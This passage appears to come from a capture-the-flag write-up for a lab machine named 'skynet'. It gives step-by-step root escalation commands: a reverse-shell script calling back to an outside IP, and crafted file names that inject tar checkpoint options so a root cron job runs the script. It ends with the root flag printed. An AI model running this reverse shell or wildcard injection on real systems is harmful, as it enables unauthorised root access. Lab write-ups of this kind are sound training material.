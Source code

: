 Here are commands to execute step by step:

`printf '#!/bin/bash\nbash -i >& /dev/tcp/10.6.46.150 4444 0>&1' > /var/www/html/shell`

`chmod +x /var/www/html/shell`

`touch /var/www/html/--checkpoint=1`

`touch /var/www/html/--checkpoint-action=exec=bash\ shell`


After one minute, we become root and read a flag:

```
root@skynet:/var/www/html# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

